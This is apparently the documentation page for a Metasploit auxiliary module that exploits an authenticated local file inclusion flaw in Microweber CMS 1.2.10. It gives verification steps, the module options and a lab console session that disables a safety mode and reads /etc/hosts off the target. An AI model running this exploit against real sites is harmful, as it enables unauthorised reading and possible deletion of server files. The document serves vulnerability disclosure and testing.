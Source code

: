 ## Vulnerable Applications
Microweber CMS v1.2.10 LFI (Authenticated) has been verified and fixed according to the maintainer of the project. You check out the vulnerability report:
https://huntr.dev/bounties/09218d3f-1f6a-48ae-981c-85e86ad5ed8b/

**The older versions of Microweber CMS might be vulnerable too. I've not tested the module against the other versions.**
If you want, you can follow the steps in the official vulnerability report to reproduce the vulnerability against the older versions. (not guaranteed)

## Verification Steps
- [ ] Start `msfconsole`
- [ ] Run `use auxiliary/gather/microweber_lfi`
- [ ] Set `RHOSTS`
- [ ] Set `USERNAME`
- [ ] Set `PASSWORD`
- [ ] Set `LOCAL_FILE_PATH`
- [ ] Run `exploit`
- [ ] Verify that you see `Checking if it's Microweber CMS.`
- [ ] Verify that you see `Microweber CMS has been detected.`
- [ ] Verify that you see `Checking Microweber's version.`
- [ ] Verify that you see `Microweber version 1.2.10`
- [ ] Verify that you see `The target appears to be vulnerable.`
- [ ] Verify that you see `Trying to log in.`
- [ ] Verify that you see `You are logged in`
- [ ] Verify that you see `Uploading LOCAL_FILE_PATH to the backup folder.`
- [ ] Verify that you see `FILE was moved!`
- [ ] Verify that you see `Downloading FILE from the backup folder.`

## Options
```
msf6 auxiliary(gather/microweber_lfi) > options

Module options (auxiliary/gather/microweber_lfi):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   DEFANGED_MODE    true             yes       Run in defanged mode
   LOCAL_FILE_PATH                   yes       The path of the local file.
   PASSWORD                          yes       The admin's password for Microweber
   Proxies                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                            yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT            80               yes       The target port (TCP)
   SSL              false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI        /                yes       The base path for Microweber
   USERNAME                          yes       The admin's username for Microweber
   VHOST                             no        HTTP server virtual host
```

## Scenerios
This module has been tested against Microweber CMS v1.2.10 installed on Ubuntu.

```
msf6 auxiliary(gather/microweber_lfi) > use auxiliary/gather/microweber_lfi
msf6 auxiliary(gather/microweber_lfi) > set username admin
username => admin
msf6 auxiliary(gather/microweber_lfi) > set password admin
password => admin
msf6 auxiliary(gather/microweber_lfi) > set local_file_path /etc/hosts
local_file_path => /etc/hosts
msf6 auxiliary(gather/microweber_lfi) > set rhosts 192.168.188.132
rhosts => 192.168.188.132
msf6 auxiliary(gather/microweber_lfi) > check

[*] Checking if it's Microweber CMS.
[+] Microweber CMS has been detected.
[*] Checking Microweber's version.
[+] Microweber version 1.2.10
[*] 192.168.188.132:80 - The target appears to be vulnerable.
msf6 auxiliary(gather/microweber_lfi) > exploit
[*] Running module against 192.168.188.132

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if it's Microweber CMS.
[+] Microweber CMS has been detected.
[*] Checking Microweber's version.
[+] Microweber version 1.2.10
[+] The target appears to be vulnerable.
[-] Auxiliary aborted due to failure: bad-config: Triggering this vulnerability may delete the local file if the web service user has the permission.
If you want to continue, disable the DEFANGED_MODE.
=> set DEFANGED_MODE false
msf6 auxiliary(gather/microweber_lfi) > set defanged_mode false
defanged_mode => false
msf6 auxiliary(gather/microweber_lfi) > exploit
[*] Running module against 192.168.188.132

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if it's Microweber CMS.
[+] Microweber CMS has been detected.
[*] Checking Microweber's version.
[+] Microweber version 1.2.10
[+] The target appears to be vulnerable.
[*] Trying to log in.
[+] You are logged in
[*] Uploading /etc/hosts to the backup folder.
[+] hosts was moved!
[*] Downloading hosts from the backup folder.
[*] 127.0.0.1 localhost
127.0.1.1 ubuntu-srv-tk

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

[*] Auxiliary module execution completed
```
